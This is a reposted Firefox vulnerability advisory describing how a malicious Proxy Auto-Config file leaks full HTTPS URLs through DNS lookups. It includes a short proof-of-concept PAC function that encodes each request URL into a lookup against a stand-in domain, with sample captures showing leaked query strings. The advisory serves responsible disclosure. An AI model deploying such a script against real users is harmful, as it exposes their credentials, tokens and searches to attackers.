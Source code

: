 ```yaml
---
layout: post
title: Firefox - Proxy Auto-Config SSL/TLS Url Disclosure
category: bugreports
---
```


Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Firefox.

<!--more-->

*Original bug report can be viewed at [https://bugzilla.mozilla.org/show_bug.cgi?id=1255474](https://bugzilla.mozilla.org/show_bug.cgi?id=1255474)*

<pre class="bugreport">
Description:        Proxy Auto-Config SSL/TLS Url Disclosure
Versions Affected:  All
Category:           Information Disclosure
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Firefox. The PAC file specifies a Javascript function, FindProxyForURL(url, host), which is called for each URL request in order to determine the required proxy for the connection. This function receives the full URL and hostname for both HTTP and HTTPS requests, which can be leaked by a malicious PAC script. This could expose credentials, tokens, search terms or any other data passed in HTTPS URL query strings to internet based attackers that would otherwise be encrypted. This issue does not affect the default configuration of Firefox.

Analysis:
---------
The PAC file is executed in a limited, sandboxed Javascript environment, but some functions are still available (see http://findproxyforurl.com/pac-functions/), most notably dnsResolve. This allows for the full request URL from affected clients to be leaked to an attacker's DNS server or local network hosts via LLMNR.

Since PAC files must be specified manually (either in Firefox or in the system proxy settings), this issue would require a network-based attacker to be able to intercept network traffic of a client configured with a PAC file. For example, this could be performed by a malicious gateway.

All software that implements the PAC specification as written is affected by this issue. We have has confirmed this issue in a number of browsers and operating systems. Notably however, Internet Explorer does not leak full URLs, instead passing only the protocol and hostname to the 'url' parameter of FindProxyForURL (e.g. https://www.example.com/, not https://www.example.com/index.html?foo=bar). Therefore a possible fix for this issues is to follow this same behaviour.

Proof of Concept:
-----------------
A PAC script can be crafted, as below, which will perform a DNS lookup based on the host and url parameters passed into the function:

  function FindProxyForURL(url, host){
    if (dnsResolve((url+'.example.com').replace(/[^a-z0-9_-]+/gi,'.')))
      return "DIRECT";
    return "DIRECT";
  }

This will perform DNS lookups with the encoded URLs against the example.com DNS server.

See the following example DNS captures from HTTPS requests:

  https.incoming.telemetry.mozilla.org.submit.telemetry.0b2fe929-bff9-4421-9a77-9247930853db.main.Firefox.44.0.2.release.20160210153822.v.4.example.com.
  https.www.google.com.complete.search.client.firefox.q.secre.example.com.
  https.www.google.com.complete.search.client.firefox.q.secret.example.com.
</pre>
